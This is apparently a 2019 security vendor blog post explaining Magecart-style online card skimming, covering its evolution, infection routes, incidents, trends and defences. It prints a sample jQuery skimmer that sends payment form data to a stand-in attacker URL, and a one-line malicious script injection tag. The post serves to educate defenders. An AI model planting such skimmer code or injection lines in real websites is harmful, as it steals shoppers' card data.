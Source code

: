 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "All About Online Skimming or Digital Skimming Attacks"
description: "Read everything you need to know about skimming attacks or magecart style attacks. The post explains the evolution of skimming attacks, how does it work, examples of skimming attacks, trends and how to protect against skimming in detail."

# Breadcrumbs
breadcrumbs:
  - name: TechBlog
    path: /techblog/
  - name: All About Online Skimming...

# Fields
date: 2019-07-24
author:
  - Mickey Alton

blog_title: "All About Online Skimming or Digital Skimming Attacks"
categories: Research
tags:
  - client side data protection
  - online skimming attacks

related_posts:
  - "Client-Side - The Security Blindspot of your Website"
  - "$229 Million GDPR Fine for British Airways Shows How Costly JavaScript Attacks Can Be"
  - "Why SREs Should Worry More About Third-Party JavaScript"

thumbnail: digital-skimming.jpg
---
```


![All About Online Skimming or Digital Skimming Attacks](/assets/images/blog/digital-skimming.jpg)<br>

The rise of digital skimming attacks, web-based supply chain attacks, in recent years is stressing the e-commerce industry. E-commerce companies cannot ignore web-based supply chain attacks resulting in direct website breaches.

Our previous blog post, [Client-Side battle against JavaScript attacks](/blog/client-side-battle-against-javascript-attacks/), and [Why SRE’s should worry more about third-party javascript](/blog/sres-should-worry-third-party-javascript/), shed light on the growing digital skimming menace.

Digital skimming is a semi-new threat, often called “Magecart,” consists of more than a dozen “official” different rival groups. These groups are targeting online retailers and eluding security researchers. Interestingly enough these groups don't always play nice with each other. They compete with each other to steal “low hanging” credit card data and personally identifiable information (PII). And resell them on deep-web and dark-net markets. This client-side threat is the new face of modern e-commerce cybercrimes.

## What is Skimming

Skimming Definition: Skimming or card skimming was originally used to describe the physical tampering of POS (point-of-sale) devices, ATMs and gas pumps by placing a hidden device inside them to steal credit card information.
The stolen credit card information is used to make online (card-not-present) purchases, cloned for in-store (card present) purchases or sold on different deep-web markets and darknet markets.
Victims of credit card skimming were often unaware of the theft until they noticed unauthorized charges on their account.

## What is digital skimming or online card skimming

Digital skimming is a term describing the action of stealing credentials and sensitive payment information from website visitors. Digital skimmers use pre-placed malicious javascript code that sniffs user inputs from sensitive forms or creates a malicious iframe with fake payment forms to sniff credit card information.

![This is an example of a card skimmer](/assets/images/blog/card-skimmer.jpg)

## The evolution of skimming

Later on, cybercriminals started to practice the same concept of card skimming - online. Instead of placing a physical device on the ATM, they would place a code that acts the same way (scanning private information) in online stores. There are more than a few synonyms for this semi-new cybercrime trend of digital skimming: js sniffing, digital skimming, web-skimming, and js stealer. They all refer to the same practice of injecting an unwanted piece of javascript malware into website cart or checkout page code to ‘grab’ sensitive information.

## What does a digital or online card skimming code look like

Below is a skimming script example taken from [Github](https://github.com/mspringfield/MageCart_Testing/blob/master/include.js) that resembles pieces of code that were used to carry out real sniffing operations.

```javascript
window.onload = function() {
  jQuery("#ifrmPayment")
    .contents()
    .find("#btnCreditCard")
    .bind("mouseup touchend", function(e) {
      var dati = jQuery("#ifrmPayment")
        .contents()
        .find("form");
      setTimeout(function() {
        jQuery.ajax({
          type: "POST",
          async: true,
          url: "hxxp://example.net/evilform.php",
          data: pdati,
          dataType: "application/json",
        });
      }, 20);
    });
};
```

_Code taken from Github that was used to carry out real sniffing operations._

Skimming scripts usually come heavily obfuscated, some are very short and have less than 20 lines of ‘innocent’ JavaScript code and one line that contains the malicious behavior. In the example above, we can see that the attackers are leveraging legitimate jQuery.

## How does digital or online card skimming work

Most of the skimming operations are carried out in two ways:

- Direct hack of a website: The direct hack of a website or a batch of websites, by brute-forcing administrator credentials (called brute-force attacks) or by using known, zero-day vulnerabilities (usually CMS based) for placing a malicious js in a website is an obvious but still attractive way to carry out a skimming operation.
- Supply chain attack: The more contemporary way - infection by supply chain attack - can be read in our latest blog, client-side-The security-blindspot of your website. The client-side has been evaluated and now two of the main sources of JS modules are open-source libraries and third-party vendors. This attack works by “simply” compromising one third-party vendor and tampering with the original script to deliver the malicious piece of code with the original code to all of the websites using the poisoned third-party script.

## Examples Of Magecart Skimming Attacks

During the period of 2017-2018 more than 12 third-party vendors were breached by “Magecart” (group 5), a few among them are:

- [Feedify](https://www.zdnet.com/article/feedify-becomes-latest-victim-of-the-magecart-malware-campaign/), August - September 2018. Feedify, an Indian company that provides browser-based customer survey service, has more than 4,000 customers according to its website. After Feedify detected the breach and removed the malicious script, the attackers (who had control of the core infrastructure) kept adding the skimming script three more times before the root cause of the breach was truly fixed.
- PushAssist is a 3rd party vendor offering a push notification service to reach and re-engage customers, it was also compromised my Magecart to deliver malicious JS sniffing code to websites that use PushAssist’s service.
  These third-party vendor breaches and many more resulted in a huge impact on tens of thousands of visitors.

Moreover, while press releases and news tend to focus on operations against known brands and websites there are ongoing attacks carried out widely targeting CMS-based websites.
The impact of these attacks should not be taken lightly. For instance, less than a year ago around 17 vulnerable Magento extensions were leveraged by skimmers to launch wide skimming attacks using POI (PHP object Sterilization) [vulnerability in several popular Magento extensions](https://sansec.io/labs/2018/10/23/magecart-extension-0days/).
Over 7,000 Magento shops were reported as compromised during 2018 alone. In most cases, the infection was as simple as a single line of HTML that loads a malicious script used to carry out the attack methodically on thousands of website without much effort.

```javascript
<script type="text/javascript" src="https://magento.name/mage/mage.js"></script>
```

Although site owners have been notified by good samaritans security researchers that the C&C servers were a sinkhole, hundreds of website still have the malicious snippet embedded in their source code while the malware itself does not exist anymore. It remains from a past breach.
Magento Commerce, Powerfront CMS, and OpenCart-based website are under constant attack in a new era of digital skimming and there’s not a proper solution as of today. Magento shop breaches are losing their attention to more ‘appealing’ campaigns, involving compromises of larger brands such as Techrabbit, [VisionDirect](https://www.bleepingcomputer.com/news/security/visiondirect-data-breach-caused-by-magecart-attack/) and many more.

## Digital Skimming Trends

Digital skimming is on an upward trend. This new fraud trend does not seem to be fading out, with new breaches, new actors and hundreds of thousands of victims.
According to [Gemini Advisory’s](https://geminiadvisory.io/card-fraud-on-the-rise/) research, fraud involving physical cards (CP: card-present) is on a downward trend while online (CNP: card-not-present - skimmed digitally) is rising.

![Comparison of card-present vs. card-not-present fraud](/assets/images/blog/comparison-card-present-not-present.jpg)<br>

These trends correlate perfectly with similar findings by 2019 [Verizon](https://enterprise.verizon.com/resources/reports/2019-data-breach-investigations-report.pdf) data breach report that clearly shows the rise in new web skimming trend. In their words exactly, “Web application attacks have punched the time clock and relieved POS Intrusion of their duties.“

## How to protect against digital or online card skimming?

Even though the digital skimming threat is constantly evolving, attackers always stay busy finding new ways to infect websites and exfiltrate sensitive data. There are relatively simple countermeasures that can be taken in order to protect against the threat of online card skimming.

1. Correct use of Content Security Policy (CSP) by website administrators. CSP headers are used to restrict communication and data transfer between domains and will constitute a great blocker for a malicious script trying to transfer data from domain to unauthorized domain.
2. From the visitor's point of view (client-side): There are more than a few extensions such as “ScriptSafe”, “ContentBlockHelper”, “NoScript” and more that provide the users both control on actions made by scripts and visibility on all the domains that are serving scripts. Another option is using privacy-oriented browsers such as “Brave Browser” that allows the user to block the third-party script from being loaded.

Stay tuned for more blogs on the topic of third-party code vulnerabilities. Find out more about protecting against digital skimming attacks with [PerimeterX code defender](/products/code-defender/).
